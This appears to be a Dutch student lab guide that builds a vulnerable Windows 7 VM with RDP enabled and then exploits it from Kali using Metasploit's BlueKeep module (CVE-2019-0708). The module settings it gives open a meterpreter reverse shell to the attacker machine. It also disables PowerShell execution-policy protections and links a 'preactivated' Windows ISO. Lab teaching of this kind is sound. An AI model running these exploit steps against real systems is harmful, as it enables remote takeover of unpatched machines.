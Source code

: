 # STAPPENPLAN NPE-OPDRACHT

In dit stappenplan wordt eerst toegelicht hoe de Windows 7 omgeving automatisch wordt opgezet. Vervolgens worden de stappen beschreven om vanuit de Kali Linux-machine een aanval uit te voeren op basis van CVE-2019-0708.

## 1. Windows 7

### Voorbereiding:
#### Downloaden en installatie van nodige bestanden


- Voor het downloaden van de gebruikte Windows 7 ISO, ga naar:
  `https://archive.org/details/win-7-ultimate-sp-1-en-us-sept-2015-x-64/Windows%207%20Ultimate%2064-bit%20SP1%20%5BPreactivated%20ISO%5D/Images/Windows%207%2064bit%20SP1-2023-11-29-22-03-26.png` en klik op **ISO IMAGE**
- Zet de gedownloade ISO-file in dezelfde map als de scripts.
- Aangezien Windows 7 de recente VirtualBox Guest Additions niet correct ondersteunt, moeten we versie 6.1.26 downloaden via `https://download.virtualbox.org/virtualbox/6.1.26/VBoxGuestAdditions_6.1.26.iso`
- Zet ook deze ISO-file in dezelfde map.

#### Execution-Policy aanpassen
Soms laat je Host-Computer niet toe om powershell-scripts te runnen die je zelf niet gesigned hebt, daarom moet je je Execution-Policy aanpassen in een **Administator mode Powershell** venster:

```ps
# Probeer eerst deze command
Set-ExecutionPolicy Unrestricted

# als deze een foutmelding geeft moet je deze uitvoeren:
Set-ExecutionPolicy Unrestricted -Scope CurrentUser
```

### Stap 1: aanmeken Windows7-VM

- Start het `create_win7_vm.ps1` script
- Volg de installatie (klik enkele keren op "Next") en wacht tot Windows volledig geïnstalleerd is.
- Wanneer Windows geïnstalleerd is, ga naar `file explorer > computer > VirtualBox Guest Additions` op de Windows7-VM en voer het `VBoxWindowsAdditions-amd64.exe` uit.
- Selecteer alle default-opties van de setup (klik telkens op *Next*)
- Druk op **reboot now** wanneer dit gevraagd uit

### Stap 2: RDP inschakelen

- Open op de Windows7-VM *cmd* als administrator en voer volgende commando's uit:

```ps
Z:
powershell -ExecutionPolicy Bypass -File \enable_rdp.ps1
```

- Hiermee worden RDP, ICMP (ping) en poort 3389 automatisch geactiveerd.
- De Windows 7 omgeving is nu volledig klaar voor de aanval.

## 2. Kali 

Zodra de Windows 7 VM klaarstaat, moet je er niets meer aan aanpassen. We gaan nu voortdoen met het opzetten van de Kali VM.

### Stap 1:  Netwerkconfiguratie
**Zorgen dat beide VMs in hetzelfde interne netwerk zitten**

- Verander in de VirtualBox settings op je Host-Computer:
  - Netwerkadapter 1: default NAT (zodat je internet hebt)
  - Netwerkadapter 2: *internal network* en selecteer `npe_intnet` 

**IP-adres toekennen aan eth1**

- Open een terminal op Kali en voer het volgende uit:

```bash
sudo ip addr add 10.10.10.3/24 dev eth1
sudo ip link set eth1 up
```

### Stap 2: Start Metasploit

```bash
msfconsole
```

- Laad vervolgens het Bluekeep exploit:

```
exploit/windows/rdp/cve_2019_0708_bluekeep_rce
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

set RHOSTS 10.10.10.2
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.10.3
set LPORT 4444
set TARGET 1
run
```

- Als alles correct is ingesteld, opent er zich een Meterpreter sessie waarmee je het systeem kunt overnemen.
